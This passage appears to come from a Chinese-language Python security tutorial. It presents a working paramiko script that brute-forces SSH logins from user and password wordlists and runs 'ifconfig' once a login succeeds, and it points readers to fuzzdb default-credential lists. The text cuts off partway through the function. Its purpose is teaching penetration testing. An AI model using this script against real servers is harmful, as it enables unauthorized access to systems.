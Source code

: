 # 使用暴力破解处理进行 SSH 连接

在这个例子中，我们执行了一个**SSHConnection**类，它允许我们初始化`SSHClient`对象并实现以下方法：

+   `def ssh_connect (self, ip_address, user, password, code = 0)`

+   `def startSSHBruteForce (self, host)`

第一个方法尝试连接到特定 IP 地址，参数是用户名和密码。

第二个方法接受两个读取文件作为输入（`users.txt`，`passwords.txt`），并通过暴力破解过程，尝试测试从文件中读取的所有可能的用户和密码组合。我们尝试用户名和密码的组合，如果可以建立连接，我们就从已连接的服务器的控制台执行命令。

请注意，如果我们遇到连接错误，我们有一个异常块，在那里我们执行不同的处理，具体取决于连接失败是由于身份验证错误（`paramiko.AuthenticationException`）还是与服务器的连接错误（`socket.error`）。

与用户和密码相关的文件是简单的纯文本文件，包含数据库和操作系统的常见默认用户和密码。文件的示例可以在 fuzzdb 项目中找到：

[`github.com/fuzzdb-project/fuzzdb/tree/master/wordlists-user-passwd`](https://github.com/fuzzdb-project/fuzzdb/tree/master/wordlists-user-passwd)

您可以在文件名为`SSHConnection_brute_force.py`的文件中找到以下代码：

```py
import paramiko

class SSHConnection:

    def __init__(self):
        #ssh connection with paramiko library
        self.ssh = paramiko.SSHClient()

    def ssh_connect(self,ip,user,password,code=0): self.ssh.load_system_host_keys()
        self.ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        print("[*] Testing user and password from dictionary")
        print("[*] User: %s" %(user))
        print("[*] Pass :%s" %(password))
        try:
            self.ssh.connect(ip,port=22,username=user,password=password,timeout=5)
        except paramiko.AuthenticationException:
            code = 1
        except socket.error as e:
            code = 2
            self.ssh.close()
        return code
```

对于暴力破解过程，我们可以定义一个函数，该函数迭代用户和密码文件，并尝试为每个组合建立`ssh`连接：

```py
 def startSSHBruteForce(self,host): try:
            #open files dictionary
            users_file = open("users.txt")
            passwords_file = open("passwords.txt")
            for user in users_file.readlines():
                for password in passwords_file.readlines():
                    user_text = user.strip("\n")
                    password_text = password.strip("\n")
                    try:
                    #check connection with user and password
                        response = self.ssh_connect(host,user_text,password_text)
                        if response == 0:
                            print("[*] User: %s [*] Pass Found:%s" %(user_text,password_text))
                            stdin,stdout,stderr = self.ssh.exec_command("ifconfig")
                            for line in stdout.readlines():
                                print(line.strip())
                            sys.exit(0)
                        elif response == 1:
```
